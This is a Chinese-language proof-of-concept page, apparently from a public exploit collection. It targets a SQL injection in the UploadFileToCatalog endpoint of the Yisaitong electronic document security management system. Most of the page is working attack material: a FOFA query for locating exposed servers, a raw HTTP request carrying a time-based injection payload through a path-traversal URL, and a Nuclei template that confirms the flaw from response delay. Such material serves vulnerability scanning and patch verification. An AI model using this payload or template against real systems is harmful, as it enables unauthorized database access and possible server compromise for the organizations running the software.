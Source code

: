 ## 亿赛通电子文档安全管理系统UploadFileToCatalog接口存在SQL注入漏洞

亿某通电子文档安全管理系统 UploadFileToCatalog接口的id参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa
```
body="/CDGServer3/index.jsp"
```

## poc
```
POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
id=1';WAITFOR DELAY '0:0:3'--
```

![8ce5da8fddd2d106e5eadb6e6c705f69](https://github.com/wy876/POC/assets/139549762/4fdf4a1c-f49a-47bc-9c1c-3d663b1d62e6)

## Nuclei
```
id: CDG-UploadFileToCatalog-SQL

info:
  name:  由于某赛通电子文档安全管理系统 UploadFileToCatalog接口的id参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限
  author: WLF
  severity: high
  metadata: 
    fofa-query: body="/CDGServer3/index.jsp"
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"
http:
  - raw:
      - |
        POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        Upgrade-Insecure-Requests: 1
        
        id=1';WAITFOR DELAY '0:0:5'--



      

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - 'duration>=4 && duration<=7'

      - type: dsl
        dsl:
           - status_code == 200
```
